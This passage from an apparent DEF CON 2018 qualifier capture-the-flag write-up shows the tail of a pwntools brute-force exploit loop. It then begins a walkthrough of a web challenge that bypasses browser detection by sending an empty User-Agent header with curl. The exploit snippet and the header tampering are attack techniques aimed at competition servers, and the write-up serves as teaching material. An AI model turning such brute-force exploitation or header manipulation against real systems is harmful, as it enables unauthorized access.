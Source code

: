 ```OOO{Sometimes, the answer is just staring you in the face. We have all been there}```
y.recvuntil( 'Go\n' )

for i in xrange( 0x10000 ):
    y.send( p64( 0xffffffffffffffc8 ) )
    p = 0xae77
    y.send( p16( p ) )
    t = Timer(1.0, hit)
    t.start()
    y.recvuntil( 'Go' , timeout=1 )
    t.cancel()
```

### sbva - Web

This is one of the easiest challenges in the comptition.

First, we are given the admin's username and password to login, but the server will return `Incompatible browser detected`. How does the server derect our browser? A quick guess is through the `User-Agent` header. So what if the header does not contain the user agent string?

``` sh
$ curl 'http://0da57cd5.quals2018.oooverflow.io/login.php' -d 'username=admin@oooverflow.io&password=admin' -H 'User-Agent:'`

<br />
<b>Notice</b>:  Undefined index: HTTP_USER_AGENT in <b>/var/www/html/browsertest.php</b> on line <b>3</b><br />

<html>
    <style scoped>
        h1 {color:red;}
        p {color:blue;} 
    </style>
    <video id="v" autoplay> </video>
    <script>
        if (navigator.battery.charging) {
            console.log("Device is charging.")
        }
    </script>
</html>
```

A PHP error occurs above, so the server actually infers our browser through the user agent header. However, there are various user-agent. It's sorts of silly to try each of them since the server might detect the version number as well.

In order to reduce possible user agent, [navigator.battery](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/battery) in javascript is an important clue. It seems that only Chrome and Firefox support this.

Let's try Firefox with different version number first. The Firefox user agent spcification is [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent/Firefox), though I'm just blindly trying the possibile version number without following the specification.
